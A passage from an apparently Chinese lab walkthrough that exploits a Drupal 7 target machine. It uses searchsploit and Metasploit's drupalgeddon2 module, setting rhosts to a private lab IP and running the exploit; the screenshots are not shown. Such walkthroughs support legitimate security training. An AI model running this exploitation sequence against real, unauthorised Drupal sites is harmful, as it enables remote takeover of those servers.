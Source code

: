 ```
searchsploit Drupa 7

```

<img src="https://img-blog.csdnimg.cn/c7ffda81418c4bd5b860d5ffe06f3a4e.png" alt="在这里插入图片描述">

#### 3.进入MSF控制台搜索drupal模块

>  
 进入MSF控制台 


```
msfconsole

```

<img src="https://img-blog.csdnimg.cn/b3dd571c09844aba93f8a871495c6430.png" alt="在这里插入图片描述">

>  
 搜索drupal模块 


```
search drupal

```

<img src="https://img-blog.csdnimg.cn/751a16e59eea4458bc30135d36ade7aa.png" alt="在这里插入图片描述">

#### 4.选择模块进行测试

>  
 用2018的测试 


```
use exploit/unix/webapp/drupal_drupalgeddon2

```

<img src="https://img-blog.csdnimg.cn/403abfd4d9664c3c8f8ad697ca1d6417.png" alt="在这里插入图片描述">

#### 5.设置靶机IP运行msf

```
set rhosts 192.168.233.177

```

<img src="https://img-blog.csdnimg.cn/a13c9a62b67a4681b429dddc7631bb65.png" alt="在这里插入图片描述">

>  
 运行msf 


```
run 

```
